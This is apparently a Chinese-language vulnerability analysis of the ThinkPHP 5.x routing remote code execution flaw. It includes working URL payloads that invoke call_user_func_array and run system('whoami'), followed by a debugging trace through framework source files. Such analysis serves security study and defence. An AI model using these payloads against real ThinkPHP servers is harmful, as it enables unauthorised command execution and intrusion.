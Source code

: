 - 环境搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518224917.png)

- 测试payload

```
index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518225017.png)


### 漏洞分析

*默认情况下安装的 ThinkPHP 是没有开启强制路由选项，而且默认开启路由兼容模式*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200519091508.png)

**?s=模块/控制器/方法 所有用户参数都会经过 Request 类的 input 方法处理，该方法会调用 filterValue 方法，而 filterValue 方法中使用了 call_user_func,尝试利用这个方法。访问如下链接**


**?s=index/\think\Request/input&filter[]=system&data=whoami*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200519092031.png)

- thinkphp/library/think/route/dispatch/Module.php:70

*于获取控制器点打断点*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200519094748.png)

*程序会跳到thinkphp/library/think/App.php的run方法，在路由检测地打个断点，重新请求*

- thinkphp/library/think/App.php:583

*于routeCheck方法对路由进行了检测，*

thinkphp/library/think/route/dispatch/Url.php:23

*出来的dispatch为index|\think\Request|input，将\替换成了|，然后进入init方法*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200519100109.png)

- thinkphp/library/think/App.php:402

*经过路由检测之后的dispatch为：*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200519100805.png)


- thinkphp/library/think/App.php:431

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200519103803.png)

- thinkphp/library/think/route/Dispatch.php:168
